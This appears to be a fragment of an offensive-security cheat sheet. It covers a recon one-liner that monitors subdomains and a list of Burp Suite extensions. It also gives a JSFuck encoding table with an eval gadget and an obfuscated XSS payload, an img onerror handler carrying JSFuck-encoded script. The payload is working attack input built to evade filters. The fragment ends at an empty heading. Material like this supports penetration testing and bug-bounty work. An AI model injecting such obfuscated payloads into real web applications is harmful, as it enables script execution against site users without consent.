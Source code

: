 
### Monitoring Oneliner

```c
$ while :; do echo <DOMAIN> | haktrails subdomain | anew subdomains.txt; sleep 86400; done | notify
```

## Burp Suite Extensions

* JS Link Finder
* Upload Scanner
* Turbo Intruder
* HTTP Request Smuggler
* Auth Analyzer

## JavaScript

### JSFuck

> http://www.jsfuck.com/

> https://github.com/aemkei/jsfuck

> https://github.com/aemkei/jsfuck/blob/master/jsfuck.js

```c
![]                                          // false
!![]                                         // true
[][[]]                                       // undefined
+[![]]                                       // NaN
+[]                                          // 0
+!+[]                                        // 1
!+[]+!+[]                                    // 2
[]                                           // Array
+[]                                          // Number
[]+[]                                        // String
![]                                          // Boolean
[]["filter"]                                 // Function
[]["filter"]["constructor"]( <CODE> )()      // eval
[]["filter"]["constructor"]("<FOOBAR>")()    // window
```

#### Encoded Payload

```c
<img src onerror="(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[]) [+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]++[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]]">
```

## Enumerate Subdomains, Web Servers and API Endpoints
